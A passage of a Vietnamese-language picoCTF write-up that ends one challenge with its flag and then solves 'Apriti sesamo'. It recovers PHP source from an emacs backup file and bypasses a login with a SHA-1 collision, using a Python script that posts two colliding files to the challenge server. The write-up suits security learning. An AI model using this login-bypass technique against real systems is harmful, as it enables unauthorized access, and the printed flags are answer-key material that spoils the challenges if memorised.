 Ta sẽ thấy được kết quả như sau
![image](https://hackmd.io/_uploads/rJ1342w2yx.png)
`picoCTF{p4ch1nk0_f146_0n3_e947b9d7}`
:::

## Apriti sesamo

:::danger
dựa vào gợi ý thì mình thấy người dùng đang dang emacs
-> Như vậy sẽ có 1 file back up có đuôi api là `~`
![image](https://hackmd.io/_uploads/SkahGH9hkg.png)
AUKE SAU KHI chuyển từ hex về character sau đó decode base64 thì ta được file này
![image](https://hackmd.io/_uploads/HymGQrcnJe.png)

```php==
<?php
if (isset($_POST["username"]) && isset($_POST["pwd"])) {
    $username = $_POST["username"];
    $password = $_POST["pwd"];
    if ($username == $password) {
        echo "<br/>Failed! No flag for you";
    } else {
        if (sha1($username) === sha1($password)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
```

ĐỌC thì mình thấy đây là sha1 collision
[document](https://exploit-notes.hdks.org/exploit/cryptography/algorithm/sha1-hash-collision-attack/)
sau đó mình sẽ host hai file lên đến lấy nội dung về
![image](https://hackmd.io/_uploads/r1ghQS9hyl.png)
sau đó ta có payload như sau

```python===
import requests
import hashlib
contentA = requests.get(f'http://localhost:8000/messageA')
contentB = requests.get(f'http://localhost:8000/messageB')

burp0_url = "http://verbal-sleep.picoctf.net:56577/impossibleLogin.php"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://verbal-sleep.picoctf.net:56577",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://verbal-sleep.picoctf.net:56577/impossibleLogin.php",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}
burp0_data = {"username": contentA.content, "pwd": contentB.content}

response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(response.text)
```